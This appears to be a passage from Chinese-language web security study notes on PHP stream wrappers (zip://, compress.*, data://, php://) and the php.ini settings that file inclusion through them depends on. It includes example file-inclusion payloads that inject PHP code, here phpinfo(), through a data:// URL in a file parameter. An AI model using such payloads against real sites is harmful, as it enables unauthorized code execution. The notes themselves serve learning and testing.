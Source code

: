 ![远程包含~](https://i.loli.net/2021/02/24/Zpq9OTWVRJvbMfo.png)

### zip:// & bzip2:// & zlib://

- 不受`allow_url_fopen`、`allow_url_include`影响
  zip:// 需`php版本>=5.3.0`

- `zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件，不需要指定后缀名，可修改为任意后缀

- 运用：

  > `zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]`- 处理的是 '.zip' 后缀的压缩包里的文件
  > zip://archive.zip#dir/file.txt
  > `compress.bzip2://绝对路径 | 相对路径` - 处理的是 '.bz2' 后缀的压缩包
  > compress.bzip2://file.bz2
  > `compress.zlib://绝对路径 | 相对路径`- 处理的是 '.gz' 后缀的压缩包
  > compress.zlib://file.gz 



### data://

- `allow_url_fopen` ：on
  `allow_url_include`：on
  `PHP版本 >= 5.2`

- 运用：`data:资源类型;编码,内容`
  `?xxx=data://text/plain;base64,(base64编码的内容)`或：`?xxx=data:text/plain,(url编码的内容)`

> eg:
>
> xxx.php?file=`data://`text/plain,<?php phpinfo()?>
>
> xxx.php?file=`data://`text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
>
> 或(省略//)
>
> xxx.php?file=`data:`text/plain,<?php phpinfo()?>
>
> xxx.php?file=`data:`text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=



### php://

- php:// — 访问各个输入/输出流；
  其中又有：
  php://stdin、 php://stdout 、 php://stderr  （允许直接访问 PHP 进程相应的输入或者输出流）
  php://input、php://output、php://filter
  php://fd、php://memory、php://temp
- `php://filter`不受`allow_url_fopen`、`allow_url_include`影响;
  `php://input`、`php://stdin`、`php://memory`、`php://temp`受限于`allow_url_include`
- 允许读取：`php://stdin`、 `php://input`、 `php://fd`、 `php://memory` 、 `php://temp`
  允许写入|追加：`php://stdout`、 `php://stderr`、 `php://output`、 `php://fd`、 `php://memory`、`php://temp`
  允许同时读写：`php://fd`、 `php://memory` 、 `php://temp`
